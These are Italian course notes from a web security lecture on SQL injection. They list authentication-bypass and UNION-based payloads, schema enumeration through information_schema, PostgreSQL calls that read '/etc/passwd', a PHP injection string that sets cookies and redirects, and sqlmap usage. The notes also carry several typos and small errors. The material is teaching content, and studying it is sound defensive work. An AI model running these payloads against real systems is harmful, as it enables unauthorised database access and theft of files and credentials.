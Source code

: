 ```yaml
---
id: '17'
lezione: "20231123"
title: "Web security - 2"
author: "Sam. K."
keywords: 
---
```


<style>
    strong{
        background-color:#faf43e;
        color: black;
        padding:0.1rem 0.2rem;
        border-radius:5px;
    }
</style>

# Web security - 2

docker exec -it <name> /bin/sh
per accedere al container con bash

## SQL injection

    ' OR 1=1; --

    -- commento; SQL comment

    $query = mysql_query("SELECT * FROM login_tb WHERE username='$username' AND password='$password'");
    '");setcookie('us',"ciao",time()+60);setcookie('ps',"ciao",time()+60);header('location: uploader.php');//'");

    setcookie('us',"ciao",time()+60);
    setcookie('ps',"ciao",time()+60);

    header('location: uploader.php');

    union select 1, string_agg(username,','), 1 from users * :

    string_agg string aggregate (1ora 06min) aggrega tutto con una virgola, l'attaccante pensa sempre che ci sia un LIMIT 1
    quindi string_agg restituisce i risultati della query come una riga con entry separate con una virgola

    selet * somethin,somethin from table_name union select something,somethin from table_name;

union deve avere delle colonne che hanno la stessa grandezza

select * from <table_name> order by <col_number>

    union select 1,NULL,NULL; per scoprire se la prima colonna è numerico ignorando il resto delle colonne

    select column_name from information_schema.columns  
    select table_name from information_schema.tables

information_schema è normalmente protetta con un controllo degli accessi, 

sql injections payload

1ora 14min

stampa le directory
union select null,pg_isdir('/bin'), null from pg_stat_user_tables --
pg_read_file('etc/passwd') legge il file

sql map un tool per automatizzare l'attacco e testare una serie di payload
https://github.com/sqlmapproject/sqlmap

python3 sqlmap.py -u "url"

htmlspecialcharcters() per fare scape delle special chars


    
